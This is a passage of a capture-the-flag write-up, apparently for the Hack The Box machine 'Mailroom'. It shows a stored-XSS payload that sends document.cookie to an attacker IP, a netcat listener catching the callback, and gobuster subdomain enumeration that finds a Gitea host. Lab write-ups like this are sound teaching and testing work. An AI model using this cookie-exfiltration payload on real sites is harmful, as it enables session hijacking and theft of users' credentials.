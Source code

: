 We see successful alert message. XSS is possible. From here we can possibly grab admin information such as cookies?
Using xss payload:

```js
<script type="text/javascript">document.location="http://10.10.14.35/?c="+document.cookie;</script>
```

On attacker machine:

```bash
$ nc -nvlp 80  
listening on [any] 80 ...
connect to [10.10.14.35] from (UNKNOWN) [10.129.209.135] 54046
GET /?c= HTTP/1.1
Host: 10.10.14.35
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

### Sensitive Gitea repository accessible in a subdomain

The machine successfully reaches out, but we don't see any cookies. While exploring this, I had also ran subdomain enumeration:

```bash
$ gobuster vhost -u http://mailroom.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/04/16 10:45:43 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
```

We see a hit for http://git.mailroom.htb so let's explore this site for now

Exploring around without signing in, we can see a public repo for matthew named `staffroom`.
